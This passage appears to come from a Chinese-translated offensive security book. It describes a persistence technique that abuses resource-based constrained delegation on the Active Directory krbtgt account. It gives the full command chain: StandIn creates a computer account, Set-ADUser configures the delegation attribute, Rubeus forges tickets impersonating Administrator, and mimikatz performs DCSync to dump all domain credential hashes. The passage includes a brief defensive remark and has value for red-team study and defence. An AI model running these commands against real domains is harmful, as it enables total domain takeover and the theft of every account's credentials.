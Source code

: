 图 7.20 – 成功设置所需的用户属性

最后，我们将像在*第五章*中一样滥用受限委派。

从防御角度来看，必须监视此类用户权限以及 GPO 的更改。最终的后门技术也将依赖委派，但这次是在 krbtgt 账户上的 RBCD。

### krbtgt 上的委派

这种技术的理念是滥用 krbtgt 账户上的 RBCD。借助内置的域管理员组权限，攻击者可以设置 krbtgt 账户的**msDS-AllowedToActOnBehalfOfOtherIdentity**属性。对于**Protected Users**组的成员和启用了**Account is sensitive and cannot be delegated**标志的账户，这个技巧不起作用。攻击者将通过创建或使用现有计算机账户来设置后门，并借助 AD 模块配置 krbtgt 账户的**msDS-AllowedToActOnBehalfOfOtherIdentity**属性：

```
StandIn_v13_Net45.exe --computer legit --make
Set-ADUser krbtgt -PrincipalsAllowedToDelegateToAccount legit$ -Verbose
Get-ADUser krbtgt -Properties PrincipalsAllowedToDelegateToAccount
```

前述命令的结果可以在以下截图中看到：

![图 7.21 – 成功设置 krbtgt 的 msDS-AllowedToActOnBehalfOfOtherIdentity 属性](img/B18964_07_21.jpg)

图 7.21 – 成功设置 krbtgt 的 msDS-AllowedToActOnBehalfOfOtherIdentity 属性

要作为低权限用户利用后门，攻击者请求 krbtgt 服务的服务票据，并执行 DCSync 攻击，步骤如下：

```
Rubeus.exe hash /password:QMgbL9WpzfRgSrr
Rubeus.exe s4u /nowrap /impersonateuser:Administrator /msdsspn:krbtgt /domain:sevenkingdoms.local /user:legit$ /rc4:56E24C7AD8CCD68A1868CBFFA14B7CD1
Rubeus.exe asktgs /service:"ldap/kingslanding.sevenkingdoms.local" /ptt /ticket:"from_s4u_base64"
mimikatz.exe "lsadump::dcsync /csv /all" "exit"
```

前述命令执行的结果如下截图所示：
